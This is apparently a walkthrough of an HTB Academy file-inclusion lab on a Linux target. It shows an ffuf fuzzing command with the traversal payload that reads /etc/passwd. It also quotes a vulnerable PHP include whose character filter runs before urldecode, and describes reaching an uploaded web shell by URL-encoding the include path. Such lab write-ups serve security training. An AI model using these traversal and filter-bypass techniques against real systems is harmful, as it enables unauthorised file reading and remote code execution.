


# File Inclusions - Skills Assessment

**Platform:** HTB Academy · **Type:** Skills assessment · **OS:** Linux

> LFI found by fuzzing an image endpoint, source disclosure, URL-encoded include filter bypass to run an uploaded shell

Interesting pages:
- `apply.php`
- `contact.php`
- `index.php`
- `thanks.php`

Source of contact.php:
- ``
Source of apply.php:
`<form action="[/api/application.php](view-source:http://154.57.164.75:31655/api/application.php)" method="POST" enctype="multipart/form-data">`


Poking at the images, the server loads each one from a hash. With no parameter or hash at all it doesn't throw an error, it just returns a blank response. That's suspicious, so I fuzzed the parameter.

```bash
┌──(julicc㉿arceus)-[~]
└─$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://154.57.164.75:31655/api/image.php?p=FUZZ -fs 0

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://154.57.164.75:31655/api/image.php?p=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

:: Progress: [40/930] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 :
:: Progress: [65/930] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 :
:: Progress: [196/930] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [335/930] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 36ms]
```

Replaying a GET request in Burp Suite with that payload confirms the LFI.


Next I used the LFI to read source code and find where the form stores uploaded files:

The target file path points to `../uploads/`.
I tried to reach the web shell I had uploaded earlier:

Going through uploads directly doesn't work...
So I looked at the code of another page:

```php
<?php
                    $region = "AT";
                    $danger = false;

                    if (isset($_GET["region"])) {
                        if (str_contains($_GET["region"], ".") || str_contains($_GET["region"], "/")) {
                            echo "'region' parameter contains invalid character(s)";
                            $danger = true;
                        } else {
                            $region = urldecode($_GET["region"]);
                        }
                    }

                    if (!$danger) {
                        include "./regions/" . $region . ".php";
                    }
                    ?>
```
The "region" parameter goes straight into `include`, with `.php` appended at the end. The only check is for `.` and `/`, and `urldecode()` runs after that check.

Putting it together: the form's target_file is an MD5 hash of the file, stored under ../uploads (i.e. /var/www/html/uploads), and the include appends .php. So I tried loading shell.php like this:

Using the `region` parameter on `contanct.php`, URL-encoding the path gets past the `.` and `/` checks.
